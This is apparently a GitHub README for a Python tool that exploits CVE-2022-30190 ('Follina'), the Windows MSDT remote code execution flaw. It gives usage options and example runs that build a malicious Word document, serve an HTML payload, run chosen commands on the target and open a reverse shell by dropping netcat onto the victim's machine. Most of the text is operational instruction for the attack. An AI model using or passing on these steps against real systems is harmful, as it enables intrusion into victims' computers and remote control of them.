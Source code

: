 # CVE-2022-30190
Microsoft Windows Support Diagnostic Tool RCE   
&nbsp;

## POC
![poc](./poc.png)
&nbsp;

## Usage
```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```
&nbsp;

# Examples

### Pop calc.exe:
```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

### Pop notepad.exe:
```
$ python3 follina.py -c "notepad"
```

### Get a reverse shell on port 9001.
```
$ python3 follina.py -r 9001
```
Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.
</br>&nbsp;

## How Does It Works
![poc](./how-work.jpg)
</br>&nbsp;

## Credit
[JohnHammond](https://github.com/JohnHammond/msdt-follina/blob/main/README.md)'s github page.</br>
[sans](https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme+CVE202230190/28694)'s webpage.</br>
</br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or buy me a [Coffee](https://buymeacoffee.com/NafisiAslH)
